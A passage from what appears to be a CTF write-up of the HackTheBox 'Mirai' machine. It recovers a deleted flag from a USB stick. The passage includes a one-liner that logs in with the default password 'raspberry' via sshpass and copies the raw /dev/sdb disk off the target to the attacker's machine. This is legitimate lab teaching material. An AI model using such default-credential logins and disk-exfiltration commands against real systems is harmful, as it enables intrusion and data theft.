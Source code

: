 

Knowing that the flag is a string, I can also use `strings`:



    root@raspberrypi:/# strings /dev/sdb -n 32
    3d3e483143ff12ec505d026fa13e020b
    Damnit! Sorry man I accidentally deleted your files off the USB stick.
    Do you know if there is any way to get them back?



#### Copy Disk

I can also grab a copy of the USB disk and bring it back to my VM for
more analysis. I'll use a pipeline of commands to generate a copy on my
machine in one line:



    oxdf@hacky$ sshpass -p raspberry ssh pi@10.10.10.48 "sudo dd if=/dev/sdb | gzip -1 -" | dd of=usb.gz
    512 bytes copied, 1 s, 0.4 kB/s20480+0 records in
    20480+0 records out
    10485760 bytes (10 MB) copied, 0.142368 s, 73.7 MB/s

    93+1 records in
    93+1 records out
    48104 bytes (48 kB, 47 KiB) copied, 1.44623 s, 33.3 kB/s



I'll break that down a bit:

-   `sshpass -p raspberry` - use the password "raspberry" for the
    following SSH command (like `ssh` and `scp`)
-   `ssh pi@10.10.10.48 "[command]"` - SSH into Mirai and run the
    command
-   `sudo dd if=/dev/sdb` - read all of `/dev/sdb` and print it to
    STDOUT
-   `| gzip -1 -` - compress the file read from STDIN (`-`) and print
    the result to STDOUT
-   The result of that command run over SSH is now printed to STDOUT on
    my local VM
-   `| dd =of=usb.gz` - write that output to `usb.gz`

I'll decompress it:



    oxdf@hacky$ file usb.gz 
    usb.gz: gzip compressed data, last modified: Mon May 16 17:37:15 2022, max speed, from Unix, original size modulo 2^32 10485760
    oxdf@hacky$ gunzip usb.gz 
    oxdf@hacky$ file usb 
    usb: Linux rev 1.0 ext4 filesystem data, UUID=635bcd7f-1d95-4229-bf13-3e722026db3c (extents) (huge files)
    oxdf@hacky$ ls -hl usb 
    -rwxrwx--- 1 root vboxsf 10M May 16 17:37 usb
